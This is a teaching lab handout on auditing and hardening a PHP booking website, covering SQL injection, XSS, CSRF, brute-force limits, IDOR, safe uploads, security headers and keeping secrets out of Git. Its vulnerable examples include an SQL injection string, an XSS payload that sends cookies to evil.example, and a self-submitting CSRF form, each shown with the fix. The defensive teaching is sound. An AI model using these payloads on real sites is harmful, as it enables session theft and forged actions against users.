




Lab 9: Securing your web application
Instructions
Syaha already protects itself against many attacks: prepared statements since Lab 5, escaped output, server validation and safe uploads since Lab 6, hashed passwords and protected pages since Lab 7. In this lab you audit it like an attacker, one risk at a time, and close the holes that remain: forms that another website can post, a login that can be attacked from many sessions, errors that tell too much, missing security headers and passwords written in Git. Then you audit your team project, and another team audits it too.
I. Preparing the audit
| File | Change |
|---|---|
includes/security.php | new: errors, HTTP security headers, CSRF tokens; included by auth.php, so by every page |
includes/error_page.php | new (replaces forbidden.php): the 403 and 500 pages |
| 13 forms (public pages, login, admin...) | a hidden CSRF token: <?= csrf_field() ?> |
includes/auth.php, login.php, database/syaha.sql | too many wrong passwords counted in the table login_attempts |
cancel_booking.php, my_bookings.php | new: a customer cancels a pending booking (authorization of an action) |
includes/config.php, config.local.example.php, .gitignore | the secrets out of Git, APP_DEBUG |
includes/db.php | connection errors handled by security.php |
admin/admin.js, admin/footer.php | no inline script (Content-Security-Policy) |
.htaccess files | includes/ and database/ cannot be opened with a URL, no folder listing |
Import SRC/Labs/Lab_9/database/syaha.sql again (it adds the table login_attempts), then open http://localhost/<project folder>/SRC/Labs/Lab_9/index.php. The demo accounts are the ones of Lab 7.
Step 1: list the entry points
| Entry point | Method | Data received | Who can use it |
|---|---|---|---|
services.php | GET | max_price, max_days, sort | everybody |
contact_us.php | POST | name, e-mail, phone, subject, message | everybody |
book.php | GET / POST | trip id, name, e-mail, date, people, return page | everybody |
login.php, register.php | POST | e-mail, password, name, next | visitors |
logout.php | POST | nothing | logged in |
my_bookings.php, cancel_booking.php | GET / POST | booking id | customers |
admin/trip_form.php | GET / POST | trip id, every field, a photo file | admins |
admin/trip_delete.php, bookings.php, messages.php | POST | ids, status | admins |
| every request | - | cookies: SYAHA_SESSION, syaha_email | everybody |
For each line, ask the questions of the next sections: can the data change a query (SQL injection), can it come back in a page (XSS), can another site send it (CSRF), is the user allowed to do it (authorization), what if it is huge, empty, or a file?
II. SQL injection
SQL injection happens when a value sent by the visitor is pasted inside the SQL code:
// VULNERABLE: the value typed by the visitor becomes part of the SQL code
$email = $_POST['email'];
$user = db()->query("SELECT * FROM users WHERE email = '$email'")->fetch();
// the attacker types: ' OR 1=1 --
// the query becomes: SELECT * FROM users WHERE email = '' OR 1=1 -- '
// -> the first account of the table (the admin), without any password
Since Lab 5, every query of Syaha with an outside value uses a prepared statement: the query and the values travel separately, and a value can never change the query.
// SAFE: the SQL is sent first, the values separately; a value can never become SQL code
$statement = db()->prepare('SELECT * FROM users WHERE email = ?');
$statement->execute([$email]);
The only part of a query that cannot be a placeholder is a name (a column, a direction): ORDER BY takes its column from a fixed list, never from the URL:
includes/queries.php (extract)
/**
* Published trips filtered by the search form of the services page (Lab 6).
* $max_price and $max_days are null when the visitor did not choose them.
*/
function search_trips(?int $max_price, ?int $max_days, string $sort): array
{
// ORDER BY cannot use a placeholder: the column comes from this fixed list, never from the visitor
$orders = [
'price_asc' => 'price ASC',
'price_desc' => 'price DESC',
'duration' => 'duration_days ASC, price ASC',
];
$order = $orders[$sort] ?? 'id';
// the conditions are added only when needed; the values always go through placeholders
$where = ['is_published = 1'];
$parameters = [];
if ($max_price !== null) {
$where[] = 'price <= :max_price';
$parameters['max_price'] = $max_price;
}
if ($max_days !== null) {
$where[] = 'duration_days <= :max_days';
$parameters['max_days'] = $max_days;
}
$statement = db()->prepare('SELECT * FROM trips WHERE ' . implode(' AND ', $where) . ' ORDER BY ' . $order);
$statement->execute($parameters);
return $statement->fetchAll();
}
To audit a project, search every query that contains a variable, and check each one:
# every query built with a variable inside: each line must be checked by hand
grep -rn -E "(query|prepare|exec)\(.*\$" --include=*.php .
PDO::ATTR_EMULATE_PREPARES => false in db.php: real prepared statements, done by MySQL itself.III. Cross-Site Scripting (XSS)
XSS happens when a text sent by a visitor is written in a page as HTML: the browser of the next visitor runs it. In Syaha, the messages of the contact form are read by the admin: the most interesting target.
<!-- VULNERABLE: the name typed in the contact form is written as HTML in the admin area -->
<td><?= $message['full_name'] ?></td>
<!-- the attacker sends the name: <script>fetch('https://evil.example/?c=' + document.cookie)</script>
the script runs in the browser of the admin, with the rights of the admin -->
Every value written in a page goes through e() (htmlspecialchars), including the values put back in the fields of a sticky form and the flash messages:
<td><?= e($message['full_name']) ?></td> <!-- <script> is shown as text -->
includes/functions.php (extract)
/** Escapes a value before writing it in the HTML: protects the page against XSS. */
function e(?string $value): string
{
return htmlspecialchars($value ?? '', ENT_QUOTES, 'UTF-8');
}
JavaScript has the same problem with innerHTML: use it only with fixed HTML written by you, never with data. The scripts of Syaha only use innerHTML for icons; the texts use textContent:
// VULNERABLE in JavaScript too: a text from the server or the visitor inserted as HTML
Card.innerHTML = `<h3>${Trip.title}</h3>`;
// SAFE: textContent never interprets HTML
const Title = document.createElement("h3");
Title.textContent = Trip.title;
Card.appendChild(Title);
e() could not run <script>.IV. Cross-Site Request Forgery (CSRF)
A logged-in admin visits another website. That website contains a hidden form that posts itself to Syaha. The browser adds the session cookie, as for every request to Syaha: the request is authenticated, but the admin never wanted it.
<!-- on https://evil.example: the visitor only opens the page, the form is posted by itself -->
<form action="http://localhost/<project folder>/SRC/Labs/Lab_7/admin/trip_delete.php" method="post">
<input type="hidden" name="id" value="3">
</form>
<script>document.forms[0].submit();</script>
<!-- if the visitor is an admin logged in to Syaha, the browser sends the session cookie with the form:
for Syaha, it is a real request of the admin, and the trip is deleted -->
SameSite=Lax (Lab 7) already stops most modern browsers from sending the cookie with this form, but it depends on the browser and does not protect against a page of the same site. The real protection is a CSRF token: a random secret, kept in the session, that every form must send back. Another website cannot read it, so it cannot write it in its form.
includes/security.php (extract)
// ------------------------------------------------------------------ CSRF tokens
require_once __DIR__ . '/session.php';
/** The secret token of the session: random, unknown to other websites. */
function csrf_token(): string
{
if (empty($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
return $_SESSION['csrf_token'];
}
/** The hidden field to put in EVERY form sent with POST. */
function csrf_field(): string
{
return '<input type="hidden" name="csrf_token" value="' . csrf_token() . '" />';
}
// every POST request is checked here, before the page runs: a form posted by another website has no token
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
$sent = $_POST['csrf_token'] ?? '';
if (!is_string($sent) || !hash_equals(csrf_token(), $sent)) { // hash_equals: a comparison in constant time
error_log('CSRF check failed for ' . $_SERVER['REQUEST_URI']);
$_SESSION['flash'][] = ['Error', 'انتهت صلاحية النموذج أو لم يُرسل من موقعنا. أعيدوا المحاولة.'];
header('Location: ' . $_SERVER['REQUEST_URI'], true, 303); // the same page, with GET: nothing is changed
exit;
}
}
- The check is done once, for every POST request, in a file that every page includes: a new form cannot be forgotten. The page itself does not even run.
hash_equals()compares in constant time: the time taken does not reveal how many characters were right.- A refused form goes back to the same page with GET and a message: nothing is changed. It also happens to an honest visitor whose session expired.
Every form sent with POST gets the hidden field, for example the logout button of the menu:
includes/header.php (extract)
<form action="logout.php" method="post" class="Logout_Form">
<?= csrf_field() ?>
<button type="submit" class="Nav_Bar_Menu_Item" title="<?= e($user['full_name']) ?>">
<span>خروج</span>
<i class="fa-solid fa-right-from-bracket"></i>
</button>
</form>

trip_delete.php?id=3 could be put in an <img> on any website.V. Passwords, sessions and brute force
| Risk | Protection | Where |
|---|---|---|
| database stolen | password_hash() / password_verify(), never the password itself | queries.php, login.php |
| accounts enumeration | the same message for a wrong e-mail and a wrong password | login.php |
| session stolen with JavaScript | cookie HttpOnly | session.php |
| session fixation | use_strict_mode, session_regenerate_id() at login | session.php, auth.php |
| session left open | idle timeout, real logout | session.php, auth.php |
| open redirect | safe_next() | auth.php |
One weakness remained: the counter of wrong passwords was kept in the session. An attacker simply deletes the cookie after each attempt and tries forever. In Lab 9 the failures are stored in the database, per e-mail and per IP address:
database/syaha.sql (extract)
-- the wrong passwords of the last day (Lab 9): too many failures block the login for a while
CREATE TABLE login_attempts (
id INT UNSIGNED AUTO_INCREMENT PRIMARY KEY,
email VARCHAR(255) NOT NULL,
ip VARCHAR(45) NOT NULL, -- 45 characters: long enough for an IPv6 address
attempted_at TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP,
INDEX (email, attempted_at),
INDEX (ip, attempted_at)
) ENGINE=InnoDB;
includes/auth.php (extract)
// too many wrong passwords (Lab 9): counted in the database, so deleting the cookie does not reset them
const LOGIN_WINDOW_MINUTES = 15;
const LOGIN_MAX_FAILURES = 5; // wrong passwords for one e-mail in 15 minutes
const LOGIN_MAX_FAILURES_IP = 20; // wrong passwords from one IP address in 15 minutes (any e-mail)
includes/auth.php (extract)
// ------------------------------------------------------------------ too many wrong passwords (Lab 9)
/** True when this e-mail, or the IP address of the visitor, failed too often in the last 15 minutes. */
function login_blocked(string $email): bool
{
$since = 'attempted_at > NOW() - INTERVAL ' . LOGIN_WINDOW_MINUTES . ' MINUTE';
$by_email = db()->prepare("SELECT COUNT(*) FROM login_attempts WHERE email = ? AND $since");
$by_email->execute([mb_strtolower($email)]);
$by_ip = db()->prepare("SELECT COUNT(*) FROM login_attempts WHERE ip = ? AND $since");
$by_ip->execute([$_SERVER['REMOTE_ADDR']]);
return $by_email->fetchColumn() >= LOGIN_MAX_FAILURES || $by_ip->fetchColumn() >= LOGIN_MAX_FAILURES_IP;
}
/** Records a wrong password (and forgets the attempts older than one day). */
function login_failed(string $email): void
{
db()->prepare('INSERT INTO login_attempts (email, ip) VALUES (?, ?)')
->execute([mb_strtolower($email), $_SERVER['REMOTE_ADDR']]);
db()->exec('DELETE FROM login_attempts WHERE attempted_at < NOW() - INTERVAL 1 DAY');
}
/** A successful login clears the failures of the account. */
function login_succeeded(string $email): void
{
db()->prepare('DELETE FROM login_attempts WHERE email = ?')->execute([mb_strtolower($email)]);
}
login.php (extract)
if (!$errors && login_blocked($values['email'])) {
// blocked: the password is not even checked, so an attacker learns nothing (Lab 9)
$error = 'محاولات كثيرة. أعيدوا المحاولة بعد ' . LOGIN_WINDOW_MINUTES . ' دقيقة.';
} elseif (!$errors) {
$user = find_user_by_email($values['email']);
// the same message whether the e-mail or the password is wrong: do not tell which accounts exist
if ($user === null || !password_verify($values['password'], $user['password_hash'])) {
login_failed($values['email']);
$error = 'البريد الإلكتروني أو كلمة المرور غير صحيحة.';
} else {

- Per e-mail: an attacker cannot try thousands of passwords on the admin account.
- Per IP address: one attacker cannot try one password on thousands of accounts.
- When blocked, the password is not even checked: the right password gives the same answer as a wrong one.
- The price: an attacker can block the account of someone else for 15 minutes. Real sites add a CAPTCHA or an e-mail to unblock it.
VI. Authorization on every action (IDOR)
Authentication says who the visitor is; authorization says what they may do with this object. In Lab 9 a customer can cancel a pending booking from "my bookings". The id of the booking is in the form, so the customer can change it in the developer tools:
// VULNERABLE: any logged-in customer can cancel ANY booking by changing the id in the form
$statement = db()->prepare("UPDATE bookings SET status = 'cancelled' WHERE id = ?");
$statement->execute([$_POST['id']]);
This is an IDOR (Insecure Direct Object Reference), the most common hole in student projects. The fix: the query itself checks that the booking belongs to the user of the session (and is still pending):
includes/queries.php (extract)
/**
* Cancels a pending booking of one account (Lab 9). The WHERE checks the owner and the status:
* another id typed in the form changes nothing. Returns false when nothing was cancelled.
*/
function cancel_user_booking(int $booking_id, int $user_id): bool
{
$statement = db()->prepare(
"UPDATE bookings SET status = 'cancelled' WHERE id = ? AND user_id = ? AND status = 'pending'"
);
$statement->execute([$booking_id, $user_id]);
return $statement->rowCount() === 1;
}
cancel_booking.php
<?php
// A customer cancels one of their bookings (Lab 9).
// The id of the booking comes from the form: the browser can send ANY id, so the owner is checked by the query.
require __DIR__ . '/includes/functions.php';
require __DIR__ . '/includes/queries.php';
require __DIR__ . '/includes/auth.php'; // also checks the CSRF token of the form
require_post('my_bookings.php');
require_login();
$id = filter_var($_POST['id'] ?? '', FILTER_VALIDATE_INT) ?: 0;
if (cancel_user_booking($id, current_user()['id'])) {
flash('Success', 'تم إلغاء الحجز رقم ' . $id . '.');
} else {
// not found, not yours, or already confirmed: the same answer, which reveals nothing
flash('Error', 'لا يمكن إلغاء هذا الحجز.');
}
redirect('my_bookings.php');
my_bookings.php (extract)
<?php if ($booking['status'] === 'pending'): ?>
<!-- Lab 9: a change, so a POST form with its CSRF token -->
<form action="cancel_booking.php" method="post" class="Cancel_Form">
<?= csrf_field() ?>
<input type="hidden" name="id" value="<?= (int) $booking['id'] ?>" />
<button type="submit"><i class="fa-solid fa-xmark"></i> إلغاء الحجز</button>
</form>

guard.php, Lab 7); customer pages check the owner in each query.VII. File uploads
| Check | In Syaha |
|---|---|
| size checked by the server | UPLOAD_MAX_BYTES in upload.php |
| real type read from the content | finfo + getimagesize() |
| random name, extension from the real type | bin2hex(random_bytes(16)) |
| folder that cannot run scripts | uploads/trips/.htaccess |
| only admins can upload | guard.php |
| the form is protected against CSRF | csrf_field() in trip_form.php |
uploads/trips/.htaccess
# Folder of the uploaded photos: files here must never be run as code.
<FilesMatch "\.(php|phtml|phar|php\d|pl|py|cgi|sh)$">
Require all denied
</FilesMatch>
# PHP as an Apache module (XAMPP): switch PHP off in this folder
<IfModule mod_php.c>
php_flag engine off
</IfModule>
# no list of the files when the folder itself is requested
Options -Indexes
VIII. Errors, security headers and secrets
Do not display errors to visitors
A PHP error message shows paths, SQL queries, sometimes the name of the database account: precious information for an attacker. On a server, errors go to the log, and the visitor gets a short page.
includes/security.php (extract)
// ------------------------------------------------------------------ errors
// a visitor never sees a PHP error: it may show paths, SQL, or the name of the database account
ini_set('display_errors', APP_DEBUG ? '1' : '0');
ini_set('log_errors', '1'); // C:\xampp\php\logs\php_error_log, or the log of the server
error_reporting(E_ALL);
/** The folder of the pages seen from the current page: '' for the public pages, '../' from the admin folder. */
function site_base(): string
{
return basename(dirname($_SERVER['SCRIPT_FILENAME'])) === 'admin' ? '../' : '';
}
/** Stops the page and shows an error page (403, 500...) with the style of the website. */
function show_error_page(int $code, string $title, string $text): never
{
http_response_code($code);
$base = site_base();
require __DIR__ . '/error_page.php';
exit;
}
// an exception that nobody caught (database down, bug...): logged with its details, a short message for the visitor
set_exception_handler(function (Throwable $error): void {
error_log(get_class($error) . ': ' . $error->getMessage() . ' in ' . $error->getFile() . ':' . $error->getLine());
show_error_page(500, 'حدث خطأ في الخادم',
APP_DEBUG ? get_class($error) . ': ' . $error->getMessage() // details on your computer only
: 'نعتذر عن هذا الخطأ. أعيدوا المحاولة بعد قليل.');
});

The connection to the database no longer prints its own message: a failed connection throws an exception, and the handler above logs it and shows the error page.
includes/db.php (extract)
// a failed connection throws a PDOException: the handler of security.php logs its details
// (host, account...) and shows the visitor a short error page (Lab 9)
$pdo = new PDO($dsn, DB_USER, DB_PASS, [
PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION, // errors become exceptions
PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC, // rows as ['column' => value]
PDO::ATTR_EMULATE_PREPARES => false, // real prepared statements
]);
Security headers
A few HTTP headers ask the browser to apply extra protections. They are sent by security.php for every page:
includes/security.php (extract)
// ------------------------------------------------------------------ HTTP security headers
header_remove('X-Powered-By'); // do not tell which PHP version runs the site
header("Content-Security-Policy: default-src 'self'; "
. "script-src 'self'; " // no inline script, no script of another site
. "style-src 'self' https://fonts.googleapis.com https://cdnjs.cloudflare.com; "
. "font-src 'self' https://fonts.gstatic.com https://cdnjs.cloudflare.com; "
. "img-src 'self' data:; "
. "frame-src https://www.openstreetmap.org; " // the map of the contact page
. "frame-ancestors 'none'; " // no other site can show Syaha in a frame
. "form-action 'self'; base-uri 'self'; object-src 'none'");
header('X-Content-Type-Options: nosniff'); // a file is only used as its declared type
header('X-Frame-Options: DENY'); // frame-ancestors, for older browsers
header('Referrer-Policy: strict-origin-when-cross-origin'); // other sites do not see our URLs
header('Permissions-Policy: camera=(), microphone=(), geolocation=()');
| Header | Protects against |
|---|---|
Content-Security-Policy | XSS: only the scripts, styles, fonts and frames of the listed origins are allowed; no inline script |
frame-ancestors 'none', X-Frame-Options | clickjacking: Syaha cannot be shown, invisible, in a frame of another site |
X-Content-Type-Options: nosniff | an uploaded file used as a script because the browser guessed its type |
Referrer-Policy | the full URL of our pages sent to other sites |
Permissions-Policy | camera, microphone and location used by an injected script |
The Content-Security-Policy forbids inline scripts, so the small script of the admin area moved to a file:
admin/admin.js
// Admin area: ask for a confirmation before the forms that delete something.
document.querySelectorAll("form[data-confirm]").forEach((form) => {
form.addEventListener("submit", (event) => {
if (!confirm(form.dataset.confirm)) event.preventDefault();
});
});
Check the headers in the Network tab of the developer tools (click the page, then Headers), or with curl:
curl -I http://localhost/<project folder>/SRC/Labs/Lab_9/index.php
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'self'; script-src 'self'; ...
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Referrer-Policy: strict-origin-when-cross-origin
Set-Cookie: SYAHA_SESSION=...; path=/; HttpOnly; SameSite=Lax
fonts.googleapis.com, cdnjs.cloudflare.com) and shows a map from openstreetmap.org: they are listed in the policy.Secrets out of the Git repository
Everybody who can read the repository can read what is in it, forever (the history keeps everything). The settings of each computer are in a file that Git ignores:
includes/config.php (extract)
<?php
// Settings of the Syaha website.
// The secrets (database password...) are NOT written here: this file is in Git, and everyone who can read the
// repository could read them. Each computer or server has its own config.local.php, ignored by Git (Lab 9):
// copy config.local.example.php to config.local.php and write the settings of this computer in it.
$local = is_file(__DIR__ . '/config.local.php') ? require __DIR__ . '/config.local.php' : [];
// the default values are the ones of XAMPP: they only work on your own computer
define('DB_HOST', $local['DB_HOST'] ?? '127.0.0.1');
define('DB_PORT', $local['DB_PORT'] ?? 3306);
define('DB_NAME', $local['DB_NAME'] ?? 'syaha');
define('DB_USER', $local['DB_USER'] ?? 'root');
define('DB_PASS', $local['DB_PASS'] ?? '');
// true on your computer: PHP errors are shown. ALWAYS false on a server: errors go to the log only.
define('APP_DEBUG', $local['APP_DEBUG'] ?? false);
unset($local);
includes/config.local.example.php
<?php
// Copy this file to config.local.php (ignored by Git) and write the settings of THIS computer or server.
// Only the values that differ from the defaults of config.php are needed.
return [
'DB_HOST' => '127.0.0.1',
'DB_PORT' => 3306,
'DB_NAME' => 'syaha',
'DB_USER' => 'syaha_app', // on a server: a MySQL account for the site only, never root
'DB_PASS' => 'a long random password',
'APP_DEBUG' => true, // your computer only: show the PHP errors
];
.gitignore
# the settings and secrets of each computer (Lab 9)
includes/config.local.php
# the logs of PHP, if you write them in the project
*.log
# a password was committed by mistake: removing the file is NOT enough, it stays in the history
git rm --cached includes/config.local.php # stop tracking the file (it stays on your disk)
echo "includes/config.local.php" >> .gitignore
git commit -m "Stop tracking the local configuration"
# then CHANGE the password: everybody who cloned the repository can still read the old one
Finally, the folders that only contain included code or data are closed to browsers (with Apache, the web server of XAMPP):
includes/.htaccess
# The files of this folder are included by the pages, never opened directly (Lab 9).
# Apache refuses every request: config.local.php, queries.php... cannot be requested with a URL.
Require all denied
.htaccess
# Apache settings of the Syaha website (Lab 9)
# no list of files when a folder has no index.php
Options -Indexes
# the version of PHP is nobody's business
<IfModule mod_headers.c>
Header unset X-Powered-By
</IfModule>
IX. Audit checklist and peer review
| Risk | Protection in Syaha | Since |
|---|---|---|
| SQL injection | prepared statements everywhere, ORDER BY from a fixed list | Lab 5 |
| XSS | e() on every output, textContent in JavaScript, CSP | Labs 5, 9 |
| CSRF | token in every POST form, checked for every POST request; SameSite cookie | Labs 7, 9 |
| Invalid data | server validation of every field and every choice | Lab 6 |
| Passwords | password_hash(), never displayed or sent back | Lab 7 |
| Brute force | failures counted per e-mail and per IP in the database | Lab 9 |
| Session theft / fixation | HttpOnly, strict mode, new id at login, timeout | Lab 7 |
| Missing authorization | guard.php for the admin area, owner checked in the queries | Labs 7, 9 |
| Malicious upload | size, real type, random name, no script in uploads/ | Lab 6 |
| Information leaks | errors logged, not shown; no X-Powered-By; no folder listing | Lab 9 |
| Clickjacking, sniffing | security headers | Lab 9 |
| Secrets in Git | config.local.php ignored by Git | Lab 9 |
Peer review
Exchange your project with another team for one hour. Install it from its README, then try every attack of this lab on it: change ids, remove required, type HTML in every field, post a form from another page, log in 10 times with a wrong password, open an admin page as a customer, upload a renamed .php file. Write each finding as a GitHub issue of their repository, with the steps to reproduce it; never fix their code yourself.
X. Your turn
- List the entry points of your project (Section I).
- Search and fix every query built with a variable, every output without
e(), everyinnerHTMLwith data. - Add CSRF tokens to every POST form, checked in one place.
- Check the owner in every query that reads or changes an object of a user.
- Count the wrong passwords in the database.
- Hide the errors (
APP_DEBUG), send the security headers, and move the inline scripts to files. - Move the secrets to an ignored file, and close
includes/and your SQL folder. - Fill the audit table and do the peer review.
Deliverables
- The audit table of your project, every line fixed or explained.
- CSRF tokens on every POST form; authorization checked for every object; brute force limited.
- No error displayed to visitors, security headers sent, no inline script.
- No secret in the Git repository (check the history too).
- The issues opened by the peer review, fixed and closed.
- This lab counts toward the "PHP/AJAX" milestone of the Deadlines table.